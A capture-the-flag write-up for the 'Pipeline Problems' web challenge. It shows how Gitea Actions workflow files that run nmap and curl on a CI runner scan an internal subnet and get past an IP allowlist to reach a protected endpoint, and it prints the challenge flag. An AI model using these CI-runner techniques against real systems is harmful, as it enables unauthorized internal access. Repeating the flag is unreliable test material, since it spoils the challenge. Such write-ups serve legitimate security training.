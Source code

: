 # Web: Pipeline Problems (251)

I've been working on a new project, my new "flag API" which gives out flags on demand. I even have a nice setup for rapid testing and deployment. Can you test it out and see how secure it is?

[http://flag-api.challs.uscybergames.com:8000](http://flag-api.challs.uscybergames.com:8000)

Author: [tsuto](https://github.com/jselliott)

## Writeup

When we go to the website, we are met with an API listing.

![Image 1](Screenshots/1.png)

The title being "Pipeline Problems" seems to imply that the pipeline is the source of the exploit in this challenge, so if we head to `/source`, we can then see that there is a Git server, hosted on Gitea.

![Image 2](Screenshots/2.png)

And from here, we can sign up and log in to continue!

Exploring, we can find the code for this flag server.

![Image 3](Screenshots/3.png)

Looking at `src/main.py`, we can find something interesting...

```py
@app.middleware('http')
async def trusted_ip_middleware(request: Request, call_next):
    ip = str(request.client.host)

    # Only allow local network to access flag
    if request.scope['path'] == "/get_flag" and ipaddress.ip_address(ip) not in ipaddress.ip_network('10.0.0.0/24'):
        return JSONResponse(content="403 - Forbidden: Access is denied", status_code=403)

    return await call_next(request)
```

So, we can only access, the `/get_flag` path from within the local network. 

Also, in `.gitea/workflows/demo.yaml`, we can find that this server is hosted on Gitea.

![Image 4](Screenshots/4.png)

So, if we can use Gitea Actions, maybe we can access the server on this IP?

If we create our own repository with a workflow with the following code, we can start to look around this network.

```yaml
name: Gitea Actions Demo
run-name: ${{ gitea.actor }} is testing out Gitea Actions 🚀
on: [push]

jobs:
  Explore-Gitea-Actions:
    runs-on: ubuntu-latest
    steps:
      - run: apt update
      - run: apt install nmap -y
      - run: nmap 10.0.0.0/24
```

However, we also need to enable Actions...

![Image 5](Screenshots/5.png)

Looking at our action, we find this:

![Image 6](Screenshots/6.png)

Only `10.0.0.9` has HTTP, though only port 8000 is actually open. However, this is also the same port we got from the description.

So what happens when we use curl on this?

Using this workflow now:

```yaml
name: Gitea Actions Demo
run-name: ${{ gitea.actor }} is testing out Gitea Actions 🚀
on: [push]

jobs:
  Explore-Gitea-Actions:
    runs-on: ubuntu-latest
    steps:
      - run: curl -v 10.0.0.9:8000/get_flag
```

However, we only see that there's 40 bytes of data...

![Image 7](Screenshots/7.png)

Now changing to this:

```yaml
name: Gitea Actions Demo
run-name: ${{ gitea.actor }} is testing out Gitea Actions 🚀
on: [push]

jobs:
  Explore-Gitea-Actions:
    runs-on: ubuntu-latest
    steps:
      - run: echo $(curl -v 10.0.0.9:8000/get_flag)
```

And now, we can get the flag!

![Image 8](Screenshots/8.png)

And our flag is `SIVUSCG{thr0ugh_th3_p1p3l1n3}`!
